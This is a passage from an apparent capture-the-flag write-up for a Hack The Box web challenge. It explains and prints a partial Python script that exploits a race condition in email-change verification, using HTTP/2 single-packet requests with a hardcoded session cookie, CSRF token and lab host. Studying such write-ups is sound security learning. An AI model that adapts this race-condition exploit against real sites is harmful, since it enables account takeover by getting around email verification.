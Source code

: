 * **Automated python script**: The goal of this script is to change the email of a user while continually verifying it until the verification token of the new email arrives to the last email (this is because in the code it was seeing a RC where it was possible to modify an email but have the verification sent to the old one because the variable indicating the email was already populated with the first one).\
  When the word "objetivo" is found in the received emails we know we received the verification token of the changed email and we end the attack.

```python
# https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
# Script from victor to solve a HTB challenge
from h2spacex import H2OnTlsConnection
from time import sleep
from h2spacex import h2_frames
import requests

cookie="session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiZXhwIjoxNzEwMzA0MDY1LCJhbnRpQ1NSRlRva2VuIjoiNDJhMDg4NzItNjEwYS00OTY1LTk1NTMtMjJkN2IzYWExODI3In0.I-N93zbVOGZXV_FQQ8hqDMUrGr05G-6IIZkyPwSiiDg"

# change these headers

headersObjetivo= """accept: */*
content-type: application/x-www-form-urlencoded
Cookie: """+cookie+"""
Content-Length: 112
"""

bodyObjetivo = 'email=objetivo%40apexsurvive.htb&username=estes&fullName=test&antiCSRFToken=42a08872-610a-4965-9553-22d7b3aa1827'

headersVerification= """Content-Length: 1
Cookie: """+cookie+"""
"""
CSRF="42a08872-610a-4965-9553-22d7b3aa1827"

host = "94.237.56.46"  
puerto =39697


url = "https://"+host+":"+str(puerto)+"/email/"

response = requests.get(url, verify=False)


while "objetivo" not in response.text:

    urlDeleteMails = "https://"+host+":"+str(puerto)+"/email/deleteall/"

    responseDeleteMails = requests.get(urlDeleteMails, verify=False)
    #print(response.text)
    # change this host name to new generated one
    
    Headers = { "Cookie" : cookie, "content-type": "application/x-www-form-urlencoded" }
    data="email=test%40email.htb&username=estes&fullName=test&antiCSRFToken="+CSRF
    urlReset="https://"+host+":"+str(puerto)+"/challenge/api/profile"
    responseReset = requests.post(urlReset, data=data, headers=Headers, verify=False)
    
    print(responseReset.status_code)
    
    h2_conn = H2OnTlsConnection(
        hostname=host,
        port_number=puerto
    )
```